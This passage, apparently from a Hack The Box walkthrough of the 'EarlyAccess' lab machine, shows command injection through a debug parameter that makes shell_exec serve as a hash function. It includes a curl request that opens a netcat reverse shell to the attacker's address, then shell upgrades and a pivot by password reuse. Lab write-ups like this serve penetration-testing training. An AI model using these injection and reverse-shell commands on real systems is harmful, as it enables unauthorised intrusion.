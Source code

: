 ## Debug Exploit

If we modify the request and send a parameter with debug=true, then we can execute our own commands using shell_exec as the hash function. Let's try to list the directory:

```sh
┌──(root💀kali)-[~/htb/earlyaccess]
└─# curl -s -L -k -X POST -b 'PHPSESSID=7241f80366715e8f4308d92c6837234d' --data-binary 'action=hash&redirect=true&password=ls&hash_function=shell_exec&debug=true' 'http://dev.earlyaccess.htb/actions/hash.php' | grep "Hashed password" -A 5 
<h3>Hashed password:</h3>
file.php
hash.php
login.php
logout.php
```

Time for a reverse shell:

```sh
┌──(root💀kali)-[~/htb/earlyaccess]
└─# curl -s -L -k -X POST -b 'PHPSESSID=7241f80366715e8f4308d92c6837234d' --data-binary 'action=hash&redirect=true&password=nc+10.10.14.12+1337+-e+/bin/bash&hash_function=shell_exec&debug=true' $'http://dev.earlyaccess.htb/actions/hash.php'
```

## User Shell

Switch to a waiting netcat listener to see we are connected:

```sh
┌──(root💀kali)-[~/htb/earlyaccess]
└─# nc -nlvp 1337
listening on [any] 1337 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.11.110] 46424
```

Upgrade the shell to something more useable:

```text
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@webserver:/var/www/earlyaccess.htb/dev/actions$ ^Z
zsh: suspended  nc -nlvp 1337
┌──(root💀kali)-[~/htb/earlyaccess]
└─# stty raw -echo; fg
[1]  + continued  nc -nlvp 1337
www-data@webserver:/var/www/earlyaccess.htb/dev/actions$ export TERM=xterm
www-data@webserver:/var/www/earlyaccess.htb/dev/actions$ stty rows 60 cols 236
```

We're connected as www-data, but looking in the home folder we see another user. Lucky for us they have reused the admin password we cracked earlier:

```text
www-data@webserver:/var/www/earlyaccess.htb/dev/actions$ ls -lsa /home
4 drwxr-xr-x 2 www-adm www-adm 4096 Feb  3 15:50 www-adm

www-data@webserver:/var/www/earlyaccess.htb/dev/actions$ su www-adm
Password: 
www-adm@webserver:/var/www/earlyaccess.htb/dev/actions$
```
